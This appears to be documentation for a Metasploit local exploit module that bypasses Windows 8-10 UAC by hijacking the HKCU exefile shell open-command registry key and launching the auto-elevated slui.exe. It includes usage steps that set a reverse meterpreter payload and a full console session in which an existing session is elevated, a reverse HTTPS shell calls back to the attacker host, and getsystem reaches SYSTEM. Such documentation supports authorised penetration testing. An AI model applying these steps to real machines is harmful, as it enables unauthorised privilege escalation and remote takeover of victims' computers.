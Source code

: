 ## Intro

  This module will bypass UAC on Windows 8-10 by hijacking a special key in the Registry under
  the Current User hive, and inserting a custom command that will get invoked when
  any binary (.exe) application is launched. But slui.exe is an auto-elevated binary that is
  vulnerable to file handler hijacking. When we run slui.exe with changed Registry key
  (HKCU:\Software\Classes\exefile\shell\open\command), it will run our custom command as Admin
  instead of slui.exe.

  The module modifies the registry in order for this exploit to work. The modification is
  reverted once the exploitation attempt has finished.
	
  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting the
  payload in a different process.

## Usage
	
  1. First we need to obtain a session on the target system.
  2. Load module: `use exploit/windows/local/bypassuac_sluihijack`
  3. Set the `payload`: `set payload windows/x64/meterpreter/reverse_tcp`
  4. If an existing handler is configured to receive the elevated session,
  then the module's handler should be disabled: set DisablePayloadHandler true.
  5. Configure the `payload`.

## Scenario

```
msf exploit(multi/handler) > 
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: d4iywkip) Encoded stage with x86/shikata_ga_nai
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: d4iywkip) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (192.168.0.30:443 -> 192.168.0.33:49875) at 2018-04-07 18:33:11 +0200

msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  WIN10-01\user01 @ WIN10-01  192.168.0.30:443 -> 192.168.0.33:49875 (192.168.0.33)

msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : WIN10-01
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid 
Server username: WIN10-01\user01
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_sluihijack
msf exploit(windows/local/bypassuac_sluihijack) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(windows/local/bypassuac_sluihijack) > set target 1
target => 1
msf exploit(windows/local/bypassuac_sluihijack) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(windows/local/bypassuac_sluihijack) > set session 1
session => 1
msf exploit(windows/local/bypassuac_sluihijack) > set LHOST 192.168.0.30
LHOST => 192.168.0.30
msf exploit(windows/local/bypassuac_sluihijack) > exploit 

[*] Started HTTPS reverse handler on https://192.168.0.30:8443
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\Sysnative\cmd.exe /c powershell Start-Process C:\Windows\System32\slui.exe -Verb runas
[*] https://192.168.0.30:8443 handling request from 192.168.0.33; (UUID: znqja6ua) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 2 opened (192.168.0.30:8443 -> 192.168.0.33:49881) at 2018-04-07 18:34:39 +0200
[*] Cleaining up registry keys ...

meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
